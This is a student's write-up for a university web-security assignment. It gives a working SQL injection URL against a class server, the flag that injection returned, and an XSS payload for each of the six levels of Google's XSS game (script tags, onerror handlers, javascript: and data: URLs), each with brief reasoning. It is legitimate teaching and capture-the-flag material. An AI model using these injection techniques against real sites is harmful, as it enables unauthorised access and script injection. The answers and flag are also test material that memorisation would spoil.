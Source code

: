 # Writeup 1 - Web I

Name: Cooper Willetts
Section: 0101

I pledge on my honor that I have not given or received any unauthorized assistance on this assignment or examination.

Digital acknowledgement: Cooper Willetts


## Assignment details
This assignment has two parts. It is due by 11/27/19 at 11:59PM.

**There will be late penalty of 5% per day late!**

### Part 1 (40 Pts)
Input - http://142.93.136.81:5000/item?id=0%27+||+%271=1%27+--+- 
Flag - CMSC389R-{y0u_ar3_th3_SQ1_ninj@}

Used the lecture slides to use an SQL attack, had to bypass the 'OR' due to website throwing errors. A couple tries of different methods lead to the result of using '||' and having the extra semi-colon with the comment on the end. 

### Part 2 (60 Pts)
Level 1 
Answer - <script>alert("xss")</script>
Just inputting some script into the text box, no sanitizing was done

Level 2 
Answer - "img src='testing' onerror='alert("xss")'" (with <> surrounding  it and no outter "" but git messes it up when reading )

Needed some wat for the alert to constantly render at each load of the page, like an image. Then just added an error message for the image to display what we needed.

Level 3 - 
Answer - https://xss-game.appspot.com/level3/frame#1' onerror='alert("xss")

after playing around I noticed there was an error if I entered certain input, thus I tried many methods to implement an error and putting it in the url worked

Level 4 - 
Answer - ');alert('xss 

Needed to add alittle extra work on the input string, it already added the paren and semi, so we just needed to add onto an empty string with our alert box for it to work. 

Level 5 - 
Answer - https://xss-game.appspot.com/level5/frame/signup?next=javascript%3Aalert%28%27xss%27%29 

Through testing was able to track down that input into the url would transfer into JS code if we had proper input, so we just had to input our needed script into the url

Level 6 -
Answer - https://xss-game.appspot.com/level6/frame#data:text/plain,alert('xss')

Not much to do here other than play with the URL, so after seeing that the text I inputted would appear on the screen, I decided to write a script and it worked properly. 

### Format

Part 1 and 2 can be answered in bullet form or full, grammatical sentences.

### Scoring

* Part 1 is worth 40 points
* Part 2 is worth 60 points

### Tips

Remember to document your thought process for maximum credit!

Review the slides for help with using any of the tools or libraries discussed in
class.
